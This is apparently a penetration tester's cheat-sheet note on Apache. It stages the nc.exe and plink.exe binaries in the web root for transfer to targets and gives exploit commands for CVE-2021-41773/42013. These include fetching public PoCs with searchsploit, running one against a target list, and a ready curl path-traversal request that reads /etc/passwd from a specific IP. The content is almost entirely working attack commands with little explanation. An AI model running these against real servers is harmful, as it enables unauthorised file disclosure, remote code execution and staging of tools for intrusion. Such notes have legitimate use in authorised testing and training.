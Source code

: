 > Apache is the most commonly used Web server on Linux systems. Web servers are used to serve Web pages requested by client computers.


#File_Sharing 

# Web server

Starting `apache2`
```bash
sudo systemctl start apache2
```

Copying `nc.exe` to the `apache2` webroot
```bash
find / -name nc.exe 2>/dev/null
sudo cp /usr/share/windows-resources/binaries/nc.exe /var/www/html/
```

Copying `plink.exe` to our `apache2` webroot
```bash
find / -name plink.exe 2>/dev/null
sudo cp /usr/share/windows-resources/binaries/plink.exe /var/www/html/
```

# Potential Exploits

## CVE-2021-41773
Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE)

```bash
searchsploit -m 50383 
```

Using the POC to list files via path traversal
```bash
./50383.sh targets.txt /etc/passwd
```

Using the POC manually to list files via path traversal
```bash
curl -s --path-as-is -d "echo Content-Type: text/plain; echo; " "http://192.168.123.169/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
```

References:
https://blog.qualys.com/vulnerabilities-threat-research/2021/10/27/apache-http-server-path-traversal-remote-code-execution-cve-2021-41773-cve-2021-42013

## CVE-2021-41773 / CVE-2021-42013
Apache HTTP Server 2.4.50 and 2.4.49 - Remote Code Execution (RCE)

```bash
searchsploit -m 50512 
```

